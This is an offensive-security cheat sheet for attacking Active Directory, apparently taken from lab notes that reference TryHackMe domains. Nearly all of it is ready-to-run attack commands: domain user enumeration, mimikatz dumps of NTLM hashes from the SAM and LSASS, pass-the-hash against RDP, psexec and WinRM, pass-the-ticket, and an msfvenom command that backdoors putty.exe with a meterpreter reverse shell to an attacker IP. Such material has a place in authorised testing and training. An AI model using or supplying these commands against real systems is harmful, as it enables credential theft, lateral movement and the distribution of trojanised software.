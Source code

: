 # Active Directory

## Net commands  

Local user accounts.  

`net user`  

All domain user accounts with /domain flag.  

`net user /domain`  

Display information about a specific user.  

`net user bob_admin /domain`  

Enumerate all groups on the domain.  

`net group /domain`  

## Users  

Powershell script to collect all users.  

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="samAccountType=805306368"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}

```



## NTLM hash

NTLM hashes from local SAM.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # lsadump::sam

NTLM hashes from LSASS memory.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # sekurlsa::msv

Using extracted hashes for pass the hash.

    mimikatz # token::revert
    mimikatz # sekurlsa::pth /user:elliot.alderson /domain:za.tryhackme.com /ntlm:654e4545455e5de /run:"some command"


RDP PTH

    xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

psexec PTH

    psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

WinRM PTH

    evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

Pass-the-Ticket

    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export

Once the desired ticket has been extracted.

`mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi`  

Backdoor .exe files.

`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`  

  

